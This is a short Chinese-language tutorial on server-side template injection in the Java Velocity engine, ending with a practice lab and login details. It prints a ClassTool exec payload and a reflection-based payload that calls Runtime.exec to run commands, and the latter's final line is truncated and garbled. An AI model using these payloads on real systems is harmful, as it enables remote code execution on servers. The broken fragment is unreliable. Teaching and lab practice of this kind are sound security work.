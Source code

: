 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5j6w7dyB0jP2XHgVRs21xfia4KxJje8YNF8nIoak5AbKiazJ3ayKRQwf5Gdze0KzyYkxQST1OtVQag/640?wx_fmt=png)

### **简介**

Velocity 是最流行的 Java 模板引擎之一。而 Freemarker 则是另一个非常流行的选择。在本文中，我们之所以选择 Velocity，是因为的利用难度要大一些。

### **模板语法基础知识**

参考资料：Velocity 的官方文档

### **攻击面**

James Kettles 发现的原始 payload 需要激活一个名为 ClassTool 的可选插件。

```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")

```

在本文中，将不会启用该插件。

Velocity 支持为变量赋值。

```
#set( $foo = "bar" )

$foo

```

这个模式用于访问我们的目标类型。下面是一个实现命令执行功能的 payload，但是这里不需要启用任何可选的插件。

```
#set($x='')##

#set($rt=$x.class.forName('java.lang.Runtime'))##

#set($chr=$x.class.forName('java.lang.Character'))##

#set($str=$x.class.forName('java.lang.String'))##

#set($ex=$rt.getRuntime().exec('ls'))##

$ex.waitFor()

#set($out=$ex.getInputStream())##

#ead()))#end

```

### **练习**

为了完成这个练习，请连接到 Web 服务器 http://template-injection.gosec.co:8013/。

要访问管理功能，请使用凭据 admin/123456 进行登陆。
